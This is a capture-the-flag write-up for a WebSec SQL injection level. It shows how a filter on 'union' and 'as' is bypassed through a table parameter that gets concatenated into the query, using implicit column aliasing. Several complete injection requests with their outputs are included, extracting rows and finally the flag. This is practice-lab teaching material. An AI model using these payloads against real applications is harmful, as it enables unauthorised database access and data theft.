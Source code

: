 ```yaml
---
layout: default
title: level11
---
```


Another SQLi challenge :D

We can see it filters some strings, and also we can see this interesting code:
```php
$query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
//$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;
```

So, it means we need to somehow achieve the `enemy`, however, we can't use `union`.
Also, the enemy is found only in the `costume` table, and not on `civil` table..

If we'll try to give something similar to what we've done in [level07](./level07.md), it won't work, something like this:
`(select 2 as id,4,enemy as username from costume where id between 1 and 1)`
Because we can't use `as`.

However, we don't have to use `as`!! when you write: `select 2 id from users`, it translates to `select 2 as id from users`

So, our input will be:
`(select 1337 id,1337,enemy username from costume where id between 5 and 5)`

and the query:
`user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 4 and 4)&submit=Submit`

```We get the table:
id   |   1337   |   username
1337     1337       enemy_name?
```

and by playing with the `between 4 and 4`, we can scan the user_ID's.

#### user_id = 4
* input
> user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 4 and 4)&submit=Submit
* output:
> Lex Luthor

#### user_id = 3
* input
> user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 3 and 3)&submit=Submit
* output:
> The Joker

#### user_id = 2
* input
> user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 2 and 2)&submit=Submit
* output:
> Green Goblin

#### user_id = 1
* input
> user_id=1337&table=(select 1337 id,1337,enemy username from costume where id between 1 and 1)&submit=Submit
* output:
> WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}

![final FLAG](./images/level11.png)

**Flag:** ***`WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}`*** 
